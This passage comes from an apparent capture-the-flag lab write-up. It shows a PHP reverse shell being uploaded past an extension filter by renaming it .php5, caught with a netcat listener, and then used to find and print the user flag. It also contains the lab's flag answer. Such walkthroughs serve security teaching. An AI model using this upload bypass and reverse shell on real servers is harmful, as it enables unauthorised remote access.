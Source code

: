 ```
    inet6 fe80::691d:5bb7:720:68ac/64 scope link stable-privacy 
       valid_lft forever preferred_lft forever
```
- Once we have replaced the IP address we are ready to upload our `php-reverse-shell.php` file.
![[5 27.png]]
- Let's click on the `Upload` button next.
![[6 19.png]]
- Looks like `php` is not allowed.
- There is a workaround for this, we can try to change the file extension to `php5` to see if that is allowed.
![[7 14.png]]
- Let's hit `Upload`.
![[8 7.png]]
- Our file upload has been successful.
- We can now use `netcat` to listen for requests.
```
$ nc -nlvp 9999
```
- Next, let's go to the `/uploads` folder.
![[9 4.png]]
- On clicking on the `php-reverse-shell.php5` link, a request will be sent to our IP address on the `9999` port which will be caught by our `netcat` listener.
```
$ nc -nlvp 9999                                  
listening on [any] 9999 ...
connect to [10.17.48.138] from (UNKNOWN) [10.10.216.90] 44132
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 14:26:08 up 54 min,  0 users,  load average: 0.00, 0.00, 0.02
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```
- We have our reverse shell.
## Question
> user.txt
- Let's find the `user.txt` file using the `find` command.
```
$ find / -name user.txt 2>/dev/null  
/var/www/user.txt
```
- Now we simply have to `cat` the file.
```
$ cat /var/www/user.txt
THM{y0u_g0t_a_sh3ll}
```
## Answer
```
THM{y0u_g0t_a_sh3ll}
```
# Task 4: Privilege escalation
> Now that we have a shell, let's escalate our privileges to root.
